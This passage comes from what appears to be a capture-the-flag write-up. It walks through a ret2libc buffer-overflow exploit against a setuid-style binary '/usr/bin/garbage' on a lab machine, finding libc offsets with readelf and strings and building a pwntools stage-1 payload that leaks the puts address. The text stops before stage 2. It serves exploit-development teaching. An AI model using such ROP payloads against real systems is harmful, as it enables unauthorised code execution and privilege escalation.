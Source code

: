 ```
margo@ellingson:~$ ldd /usr/bin/garbage
	linux-vdso.so.1 (0x00007ffc9939e000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ff5d6fbe000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ff5d73af000)
```

Ok. Next, let's use `readelf -s` on the binary, and grep for the offsets that we need!

```
margo@ellingson:~$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep -w puts@
   422: 00000000000809c0   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
margo@ellingson:~$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep -w system@
  1403: 000000000004f440    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
margo@ellingson:~$ 
```

What about the /bin/sh string? Does that even exist in libc?

Turns out, the system() function does need that string to function. We can therefore use `strings -tx` on the libc, and grep for /bin/sh.

```
margo@ellingson:~$ strings -tx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 1b3e9a /bin/sh
margo@ellingson:~$ 
```

Our next part of the exploit will look like this:
```python=
puts_offset = 0x809c0
system_offset = 0x4f440
binsh_offset = 0x1b3e9a
```

Now let's overflow! Let's prepare our stage 1 payload to leak the address of libc. To do that, we need to fill the buffer with 136 A's, then the address of the pop rdi;ret gadget to set the parameter equal to the global offset table of puts, then the address of puts() to print the address out, and back to auth() so we can send out stage 2. Pwntool's p64() function will be handy to encode our addresses into 64-bit little endian mode:

```python=
payload = "A"*136
payload += p64(pop_rdi_gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(auth)

sh.sendline(payload)
sh.recvline()
sh.recvline()
```

(note: we call sh.recvline() twice since there's two new lines we need to go over before we get to the address leak.)

Now let's capture the leaked address. How can we calculate the address of system using the offsets though?
